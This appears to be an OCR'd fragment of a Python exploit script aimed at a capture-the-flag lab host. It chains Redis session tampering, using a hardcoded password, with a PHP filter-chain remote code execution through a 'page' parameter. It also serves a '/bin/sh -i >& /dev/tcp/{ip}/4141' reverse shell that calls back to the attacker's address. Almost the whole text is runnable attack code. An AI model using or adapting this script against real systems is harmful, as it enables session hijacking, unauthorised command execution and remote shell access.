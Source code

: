 ```py
def start_http_server(port, ip):

    shell = f'/bin/sh -i >& /dev/tcp/{ip}/4141 0>&1'

    with open('index.html', 'w') as f:
        f.write(shell)

    try:
        Handler = http.server.SimpleHTTPRequestHandler
        httpd = socketserver.TCPServer(("", port), Handler)

        print("[+] Serving at port", port)
        httpd.serve_forever()
    except OSError as e:
        print(e)

def developers_auth(url):

    get_sess = session.get(url)
    sess_token = session.cookies.get('PHPSESSID')
    print("[+] New session token:", sess_token)

    redis_client = redis.Redis(host='10.10.11.192', port=6379, password='COLLECTR3D1SPASS')
    keys = redis_client.keys('*')

    for key in keys:
        if sess_token in key.decode():
            is_ok = redis_client.set(key, "auth|s:4:\"true\";")
            if is_ok:
                return True
            else:
                return False


try:
    # Start http server on child thread
    port = 8000
    http_thread = threading.Thread(target=start_http_server, args=(port,tun0_ip))
    http_thread.daemon = True
    http_thread.start()
    
    # Generate php chain
    rce_chain = gen_php_chain(tun0_ip)
    is_auth = developers_auth(url=host)

    if is_auth:
        session.get(f"{host}/?page={rce_chain}", timeout=10)
    else:
        print("[-] developers auth error!")

except KeyboardInterrupt as e:
    print(e)
except Exception as e:
    print(e)
finally:
    if os.path.isfile("index.html"): os.remove("index.html")

```
